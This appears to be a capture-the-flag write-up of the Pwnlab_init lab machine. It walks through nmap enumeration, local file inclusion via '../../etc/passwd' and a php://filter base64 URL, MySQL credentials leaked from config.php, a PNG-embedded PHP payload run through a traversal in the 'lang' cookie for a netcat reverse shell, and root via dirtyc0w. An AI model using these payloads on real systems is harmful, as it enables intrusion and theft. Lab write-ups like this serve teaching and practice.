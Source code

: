 # Writeup Pwnlab_init


## Enumeration
First I did a scan with **nmap** scanning the first 10000 ports to see the open ones.

```nmap -p1-10000 -sS -T5 10.0.2.24```

After enumerating some open ports, it was time to service/banner scan.
```
Nmap scan report for 10.0.2.24
Host is up (0.00044s latency).

PORT     STATE  SERVICE        VERSION
80/tcp   open   http           Apache httpd 2.4.10 ((Debian))
111/tcp  open   rpcbind        2-4 (RPC #100000)
2791/tcp closed mtport-regist
3014/tcp closed broker_service
3306/tcp open   mysql          MySQL 5.5.47-0+deb8u1
3322/tcp closed active-net
3665/tcp closed ent-engine
9452/tcp closed unknown
MAC Address: 08:00:27:22:B7:9F (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 30 20:54:21 2017 -- 1 IP address (1 host up) scanned in 24.08 seconds```

After that, I opened the site on the port 80 and did a recon on the page.

I could see that the server did a `include` with every file that has been refered
by the `page` param in the URL... hm...
That reminds me of a **LFI**.

## Web Exploitation

Now, is time to exploit that LFI.

First thing I did was trying to get access to the `/etc/passwd` file with no avail:

```
Didn't worked: I could not separate the .php append from the code using a LFI.
Possibly using include or require_once.
http://10.0.2.24/?page=../../../../../etc/passwd%00
```

As that didn't worked, I did a trick I learned from a CTF in shellter labs (great platform anyway). The so called **PHP INCLUSION FILTER**.

```
http://10.0.2.24/?m=php://filter/convert.base64-encode/resource=index
```
And that returned me the source code encoded in base64.

![lfi_filter]({{ site.url }}/imgs/write-ups/pwnlab_init/lfi_filter_php_base64.png)

Lovely, don't you think?

Analysing the code from the pages, I could see a reference to a __config.php__
in the index page. So I downloaded that source and what did I see?

![config_mysql]({{ site.url }}/imgs/write-ups/pwnlab_init/mysql_credentials.png)

Using that credentials and connecting to the mysql database, I found this:

![mysql_users]({{ site.url }}/imgs/write-ups/pwnlab_init/database_credentials.png)

Now I had user access and could use the upload function to transform a LFI
into a RCE.

After loging as mike, I wrote a [payload embeded into a png]({{ site.url }}/files/payloads/shell.png) to open a shell. But there is one problem: the page param didn't worked because
I couldn't include a file ending with .png and I could't upload a file that
wasn't a image (and also with a image extension). I had to find another way in.

And I did.

![lang_cookie](imgs/write-ups/pwnlab_init/lang_cookie.png)

So I set the **lang** cookie to ``../images/[md5hash].png`` and executed my payload.
With some **netcat** trickery, I finally got home:

![reverse_shell]({{ site.url }}/imgs/write-ups/pwnlab_init/reverse_shell.png)
Say hello to the reverse shell :)

## Privilege Escalation

After lurking the system for some time, I did a recon on the box and found the
kernel version very interesting:

```
$:uname -a
Linux pwnlab 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) i686 GNU/Linux
```

After some research, I found the **dirtyc0w** exploit and decided to give it a try.

I did the shellcode uncommenting and compiled to the x86 platform:
```
gcc -m32 cow.c -o cow
```

After running into the box:

```
$:./cow
whoami
root
```

And that's all, folks. See you in the next writeup!
